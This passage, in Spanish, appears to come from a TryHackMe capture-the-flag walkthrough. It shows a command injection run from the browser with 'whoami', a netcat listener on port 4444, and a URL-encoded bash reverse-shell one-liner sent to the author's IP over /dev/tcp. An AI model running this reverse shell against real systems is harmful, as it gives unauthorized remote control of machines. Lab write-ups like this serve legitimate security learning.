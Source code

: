 Guardo el archivo, e introduzco la ruta absoluta en el navegador.

![picture](/assets/images/tryhackme/breakm16.png)

Y a continuación, ejecuto el **`Command Injection`** con el comando **`Whoami`**, y me devuelve el output esperado.

![picture](/assets/images/tryhackme/breakm17.png)

A continuación voy a ejecutar una **`Reverse Shell`** desde el navegador. Pero primero tengo que crear un **`Listener`** en mi máquina local, para poder obtener la **`Reverse Shell`**.

- *Listener*

```bash
nc -lnvp 4444
```

- *Reverse Shell*

	(*Al hacerse desde el navegador hay que transformar los **`&`** en **`%26`**, que es su codificación **URL**, ya que si no se codifica no funciona*)

```bash
bash -c "bash -i >%26 /dev/tcp/'Nuestra IP'/4444 0>%261"
```

![picture](/assets/images/tryhackme/breakm18.png)

Y una vez ejecutado, obtenemos acceso a la máquina con una **`Shell interactiva`** en nuestra máquina local.

![picture](/assets/images/tryhackme/breakm19.png){: w="600" h="300" }
